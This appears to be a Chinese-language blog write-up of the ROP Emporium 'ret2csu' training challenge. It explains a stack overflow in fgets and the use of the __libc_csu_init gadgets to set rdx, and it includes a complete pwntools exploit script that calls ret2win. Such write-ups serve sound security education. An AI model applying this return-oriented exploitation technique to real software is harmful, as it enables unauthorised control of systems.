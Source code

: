 ```yaml
---
title: ROP Emporium の ret2csu
date: 2020-06-15 17:00:29
categories:
- WriteUPs
- ROP Emprium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;[ROP Emporium](https://ropemporium.com)训练7：ret2csu的解析。

<!-- more -->

## ret2csu

### Step 1

&emsp;&emsp;程序运行图：

![](/img/ret2csu/ret2csu1.png)

&emsp;&emsp;checksec：

![](/img/ret2csu/ret2csu2.png)

&emsp;&emsp;根据提示，最终还是要调用ret2win函数，但是对相应寄存器有了一定限制。

### Step 2

&emsp;&emsp;把程序丢到hopper中发现pwnme函数中fgets函数存在溢出漏洞：

![](/img/ret2csu/ret2csu3.png)

&emsp;&emsp;根据提示我们是需要调用ret2win函数：

![](/img/ret2csu/ret2csu4.png)

&emsp;&emsp;并且提示我们需要将低3个参数即rdx寄存器的值置为0xdeadcafebabebeef，但是通过ROPgadget我们并没有找到可以控制rdx寄存器的gadgets：

![](/img/ret2csu/ret2csu5.png)

&emsp;&emsp;根据[ret2csu - 万能gadgets](https://coldwave96.github.io/2020/06/15/Useful-Gadgets/)我们可以选择利用万能gedgets实现传参：

![](/img/ret2csu/ret2csu6.png)

&emsp;&emsp;主要思路和easy_csu差不多，同样通过init_array_start函数的指针来跳过gadget2中的那条call指令。

### Step 3

&emsp;&emsp;EXP脚本如下：

```Python
* from pwn import *
* 
* sh = process('./ret2csu')
* elf = ELF('ret2csu')
* 
* gadget1 = 0x40089a
* gadget2 = 0x400880
* 
* init_addr = elf.symbols['__init_array_start']
* ret2win_addr = elf.symbols['ret2win']
* 
* payload = 'a' * (0x20 + 0x8)
* payload += p64(gadget1) + p64(0) + p64(1) + p64(init_addr) + p64(0) + p64(0)+ p64(0xdeadcafebabebeef)
* payload += p64(gadget2) + 'a' * 56
* payload += p64(ret2win_addr)
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;EXP脚本运行结果：

![](/img/ret2csu/ret2csu7.png)

## End

&emsp;&emsp;至此ROP Emporium的8个训练全部结束，完结，撒花～～
